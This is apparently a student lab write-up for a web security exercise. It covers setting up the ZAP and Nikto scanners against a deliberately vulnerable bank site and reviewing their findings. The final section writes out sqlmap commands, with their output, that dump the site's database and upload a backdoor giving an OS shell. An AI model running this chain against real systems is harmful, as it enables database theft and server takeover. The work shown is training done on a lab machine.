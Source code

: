 ### Exercise 2: Black-Box Web Application Vulnerability Testing




__1. Download two web vulnerability scanners and describe the all needed set-up environment
settings__
__solution :__
1. Owasp Zed Attack Proxy (Linux) (Avaialble in `kali Linux`)
   - Download the program from https://www.zaproxy.org/download/ , and select the Linux installer
   - run the file `./ZAP_2_10_0_unix.sh`
   - after successfull installation run the file from command line `$: zapproxy`
   - An gui app will be opened if ran without errors.
   
![zap_interface](../task3/images/zap_interface.PNG)


2. Nikto Vulnerabuility Scanner
- A command line web vulnerability scanner

```bash
git clone https://github.com/sullo/nikto
# Main script is in program/
cd nikto/program
# Run using the shebang interpreter
./nikto.pl -h http://www.vbank.com
# Run using perl (if you forget to chmod)
perl nikto.pl -h http://www.vbank.com

# to use the proxy
perl nikto.pl -h http://www.vbank.com -useproxy
```
  - Avialble by Default in Kali installation
  - Run the application `nikto -h http://vbank.com`

![nikto_sample_usage](../task3/images/nikto_sample.PNG)




__2. Report how you found the different vulnerabilities: SQLi, XSS, etc.__
__solution__
1. Nikto Vulnerability Scanner
   - Run the nikto from command line with `--host` switch for host url

![nikto_results](../task3/images/nikto_results.PNG)

- Vulnerabilities/info found:
1. Clickjacking
2. Cross site scripting
3. Directory traversal
4. cookie without httponly flag
5. Server information in response headers



2. Owasp Zap vulnerability scanner
-  run the zapproxy `zapproxy` and click on the `automated scan`
![zed attack proxy](../task3/images/zap_intro.png)
<br>
- Results



**ZAP Scanning Report**

**Summary of Alerts**

| Risk Level | Number of Alerts |
| --- | --- |
| High | 1 |
| Medium | 1 |
| Low | 4 |
| Informational | 2 |

**Alerts (From Scan Report)**

| Name | Risk Level | Number of Instances |
| --- | --- | --- | 
| Cross Site Scripting (DOM Based) | High | 1 | 
| X-Frame-Options Header Not Set | Medium | 3 | 
| Absence of Anti-CSRF Tokens | Low | 3 | 
| Cookie No HttpOnly Flag | Low | 1 | 
| Cookie Without SameSite Attribute | Low | 1 | 
| X-Content-Type-Options Header Missing | Low | 19 | 
| Information Disclosure - Sensitive Information in URL | Informational | 3 | 
| Information Disclosure - Suspicious Comments | Informational | 1 | 

**Alerts (Manual test comparing ZAP)**

| Name | Risk Level | Number of Instances | **False Positive**
| --- | --- | --- | --- | 
| Cross Site Scripting (DOM Based) | High | 1 | **Yes**|
| X-Frame-Options Header Not Set | Medium | 3 | **No**|
| Absence of Anti-CSRF Tokens | Low | 3 | **No**|
| Cookie No HttpOnly Flag | Low | 1 | **No**|
| Cookie Without SameSite Attribute | Low | 1 | **No**|
| X-Content-Type-Options Header Missing | Low | 19 | **No**|
| Information Disclosure - Sensitive Information in URL | Informational | 3 | **No**|
| Information Disclosure - Suspicious Comments | Informational | 1 | **No**|


__3. Now you have collected enough information about the victim web application and found
multiple serious SQL injection vulnerabilities.
Use an automatic exploitation tool (e.g. sqlmap) to dump all the database, upload a web shell
and prove that you have control of the bank server!__

- Using `sqlmap` to find sql injection and dump database content
- Usage
```bash
$: sqlmap -u 'http://192.168.37.128/login.php?username=alex' --dbs
```
__Result:__

![sqlmap_dbs](../task3/images/sqlmap_dbs.PNG)

- Found `vbank` database (along with others)
- use `--dump` as switch and dump the contents of database `vbank` with `-D` switch


```bash
└─$ sqlmap -u 'http://192.168.37.128/login.php?username=alex' -D vbank --dump            
```


- Uploading a shell


```bash
$ sqlmap -u 'http://192.168.37.128/login.php?username=alex' --os-shell                          
                                   
[06:23:50] [INFO] the file stager has been successfully uploaded on '/var/www/htdocs/' - http://192.168.37.128:80/tmpuxstl.php
[06:23:50] [INFO] the backdoor has been successfully uploaded on '/var/www/htdocs/' - http://192.168.37.128:80/tmpbjcpu.php
[06:23:50] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'www-data'
os-shell> id
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'uid=33(www-data) gid=33(www-data) groups=33(www-data)'
os-shell> 

```

> This is on condition that we have write permission on **`www`** directroy.

> Initially, sqlmap threw an error **`unable to upload shell as the user have may not have right permissions to the sepcifed directory`**





